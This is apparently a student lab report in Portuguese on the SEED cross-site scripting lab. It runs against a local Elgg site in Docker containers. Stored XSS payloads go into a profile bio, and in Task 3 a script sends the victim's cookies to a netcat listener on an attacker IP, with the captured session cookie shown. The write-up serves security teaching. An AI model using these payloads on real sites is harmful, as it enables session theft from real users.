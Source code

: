 ```shell
mysql-10.9.0.6 | 2023-05-18T12:39:41.160912Z 0 [Warning] [MY-011810] [Server] Insecure configuration for --pid-file: Location '/var/run/mysqld' in the path is accessible to all OS users. Consider choosing a different directory.
mysql-10.9.0.6 | 2023-05-18T12:39:41.275292Z 0 [System] [MY-010931] [Server] /usr/sbin/mysqld: ready for connections. Version: '8.0.22'  socket: '/var/run/mysqld/mysqld.sock'  port: 3306  MySQL Community Server - GPL.

De seguida usámos dockps para saber o id do container:
[05/18/23]seed@VM:~/.../Labsetup$ dockps
12849dab3484  elgg-10.9.0.5
51a8f975b5f8  mysql-10.9.0.6
De seguida fizemos docksh para abrir a shell:
[05/18/23]seed@VM:~/.../Labsetup$ docksh 12
root@12849dab3484:/# 
```
# Tarefa 1:

- Fizemos login no site com o user Samy:

![Screenshot from 2023-05-18 10-09-51](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/5d184a93-3b20-43b5-94a7-db59813c14a1)

- Selecinámos "edit profile" e adiconámos a seguinte linha à breve descrição do perfil:
```
<script> alert("XSS"); </script>
```

- Entrámos no perfil da Alice e quando fomos ver os membros apareceu-nos o seguinte aviso:

![Screenshot from 2023-05-18 10-28-22](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/4bc22883-ba81-4dfb-9da0-0a71872b5487)

O que nos indicou que o exploit funcionou.

# Tarefa 2:

De seguida alterámos a descrição do perfil do Samy para "<script> alert(document.cookie); </script>" e após voltarmos a visitar os membros com a conta da Alice apareceu a seguinte mensagem:

![Screenshot from 2023-05-18 10-44-39](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/59af90d2-e28d-4a29-883b-c5ae7d897ed2)

# Task 3 "Stealing Cookies from the Victim’s Machine"
- Utilizamos `nc -l 5555` para ler a porta*5555*
- logamos com o utilizador sammy e mais uma vez mudamos a bio do perfil acrescentado...
```javascript
<script>
 document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + ' >');
</script>
```
com isto a janela do terminal deu nos...
```shell
[05/19/23]seed@VM:~/.../Labsetup$ nc -l 5555
GET /?c=pvisitor%3D358953d3-eda2-4066-8630-1144a7e453e0%3B%20__gsas%3DID%3D8140c6a208e921f0%3AT%3D1682715805%3AS%3DALNI_MapjHxS75HbryLtaQxUXNqgZiSpLg%3B%20Elgg%3Dsfekuthjgjo0n8udeqvd6k5ibl HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```
como podemos reparar temos o *pvisitor*
- fizemos o logout, o que terminou no terminal o `nc`